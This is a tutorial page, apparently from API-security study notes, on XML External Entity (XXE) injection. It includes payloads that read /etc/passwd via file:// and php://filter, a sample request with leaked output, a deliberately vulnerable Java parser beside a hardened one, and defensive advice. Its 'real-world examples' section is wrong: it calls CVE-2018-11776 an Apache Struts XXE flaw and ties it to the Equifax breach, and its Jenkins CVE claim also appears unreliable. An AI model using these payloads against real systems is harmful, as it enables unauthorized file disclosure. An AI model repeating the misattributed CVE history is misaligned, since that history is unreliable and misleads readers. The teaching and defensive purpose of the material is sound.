


## XML External Entity Injection (XXE) in APIs

### Introduction to XML External Entity Injection (XXE)

XML External Entity Injection (XXE) is a type of attack against an application that parses XML input. This attack occurs when the application improperly processes XML input containing references to external entities. An entity is a piece of data that can be referenced within an XML document. External entities allow the inclusion of data from external sources, such as files or network resources. If an attacker can inject malicious XML into an application, they may be able to exploit this feature to perform various types of attacks, including reading sensitive files, executing system commands, or even conducting denial-of-service (DoS) attacks.

### Understanding XML Entities

#### What Are XML Entities?

In XML, an entity is a named reference to a piece of data. There are two types of entities:

1. **Internal Entities**: These are defined within the XML document itself and are used to represent a string of characters.
2. **External Entities**: These are defined outside the XML document and can reference external resources such as files or network locations.

#### Syntax of XML Entities

An internal entity is defined using the `<!ENTITY>` declaration within the XML document:

```xml
<!DOCTYPE root [
    <!ENTITY example "This is an example">
]>
<root>
    <element>&example;</element>
</root>
```

An external entity is defined similarly, but it references an external resource:

```xml
<!DOCTYPE root [
    <!ENTITY ext SYSTEM "file:///etc/passwd">
]>
<root>
    <element>&ext;</element>
</root>
```

### XML External Entity Injection (XXE)

#### How XXE Works

When an application parses an XML document that contains an external entity reference, it will attempt to resolve the entity by accessing the specified resource. If the application does not properly validate or sanitize the XML input, an attacker can inject malicious XML that references external entities, leading to potential information disclosure or other attacks.

#### Example of XXE Attack

Consider an API endpoint that accepts XML input and processes it:

```http
POST /api/v1/process HTTP/1.1
Host: example.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<request>
    <data>&xxe;</data>
</request>
```

If the application does not properly handle the external entity reference, it may read the contents of `/etc/passwd` and return it in the response:

```http
HTTP/1.1 200 OK
Content-Type: application/xml

<?xml version="1.0"?>
<response>
    <result>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
</result>
</response>
```

### Techniques for Exploiting XXE

#### Using File Inclusion

One common technique is to use file inclusion to read sensitive files from the server. For example, an attacker might inject an XML payload that references `/etc/passwd`:

```xml
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<request>
    <data>&xxe;</data>
</request>
```

#### Using PHP Filters

Another technique involves using PHP filters to encode and decode data. For example, an attacker might use the `php://filter` protocol to read and encode the contents of a file:

```xml
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<request>
    <data>&xxe;</data>
</request>
```

#### Using Data URI Scheme

The Data URI scheme can also be used to inject data into the XML document. For example, an attacker might use a data URI to include a base64-encoded string:

```xml
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "data:text/plain;base64,SGVsbG8gd29ybGQ=">
]>
<request>
    <data>&xxe;</data>
</request>
```

### Real-World Examples of XXE Attacks

#### CVE-2018-11776: Apache Struts XXE Vulnerability

In 2018, a critical vulnerability was discovered in Apache Struts, a popular Java framework. The vulnerability allowed attackers to exploit XXE vulnerabilities in certain versions of Struts. This led to several high-profile breaches, including the Equifax data breach, which exposed sensitive personal information of millions of users.

#### CVE-2021-3186: Jenkins XXE Vulnerability

In 2021, a vulnerability was discovered in Jenkins, a widely-used automation server. The vulnerability allowed attackers to exploit XXE vulnerabilities in certain plugins, leading to unauthorized access and potential data exfiltration.

### How to Prevent / Defend Against XXE Attacks

#### Secure Coding Practices

To prevent XXE attacks, developers should follow secure coding practices:

1. **Disable External Entity Processing**: Ensure that the XML parser is configured to disable external entity processing. This can be done by setting the appropriate flags or properties in the XML parsing library.

2. **Input Validation**: Validate and sanitize all XML input to ensure that it does not contain malicious external entity references.

3. **Use Secure Libraries**: Use XML parsing libraries that are known to be secure and have been audited for vulnerabilities.

#### Configuration Hardening

1. **Disable DTD Loading**: Configure the XML parser to disable loading of DTDs (Document Type Definitions). This can be done by setting the appropriate flags or properties in the XML parsing library.

2. **Restrict File Access**: Restrict file access permissions to prevent unauthorized access to sensitive files.

#### Detection and Monitoring

1. **Logging and Monitoring**: Implement logging and monitoring to detect and respond to potential XXE attacks. Monitor for unusual XML input patterns or unexpected file accesses.

2. **Security Scanning Tools**: Use security scanning tools to identify and mitigate XXE vulnerabilities in your applications.

### Worked Example: XXE Attack and Prevention

#### Vulnerable Code

Consider the following vulnerable code that parses XML input:

```java
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import org.w3c.dom.Document;

public class VulnerableCode {
    public static void main(String[] args) {
        String xmlInput = "<!DOCTYPE foo [<!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><request><data>&xxe;</data></request>";
        
        DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
        DocumentBuilder dBuilder;
        try {
            dBuilder = dbFactory.newDocumentBuilder();
            Document doc = dBuilder.parse(new java.io.ByteArrayInputStream(xmlInput.getBytes()));
            System.out.println(doc.getElementsByTagName("data").item(0).getTextContent());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

#### Secure Code

To prevent XXE attacks, modify the code to disable external entity processing:

```java
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import org.w3c.dom.Document;

public class SecureCode {
    public static void main(String[] args) {
        String xmlInput = "<!DOCTYPE foo [<!ENTITY xxe SYSTEM \"file:///etc/passwd\">]><request><data>&xxe;</data></request>";
        
        DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
        dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
        dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
        
        DocumentBuilder dBuilder;
        try {
            dBuilder = dbFactory.newDocumentBuilder();
            Document doc = dBuilder.parse(new java.io.ByteArrayInputStream(xmlInput.getBytes()));
            System.out.println(doc.getElementsByTagName("data").item(0).getTextContent());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

### Hands-On Practice Labs

For hands-on practice with XXE attacks and defenses, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs covering various web security topics, including XXE.
- **OWASP Juice Shop**: A deliberately insecure web application that includes XXE vulnerabilities for educational purposes.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is intentionally vulnerable to common web application flaws, including XXE.

### Conclusion

XML External Entity Injection (XXE) is a serious vulnerability that can lead to significant security risks if not properly mitigated. By understanding the mechanics of XXE attacks, implementing secure coding practices, and using configuration hardening techniques, developers can effectively defend against these attacks. Regularly testing and monitoring applications for XXE vulnerabilities is essential to maintaining a secure environment.

### Diagrams

#### XML Parsing Process



#### Secure XML Parsing Process



By following these guidelines and practices, developers can significantly reduce the risk of XXE attacks and ensure the security of their applications.

---
<!-- nav -->
[[API Security/22-Offensive XXE Exploitation/15-XML External Entity Injection in API Part 2/00-Overview|Overview]] | [[02-XML External Entity Injection (XXE)|XML External Entity Injection (XXE)]]
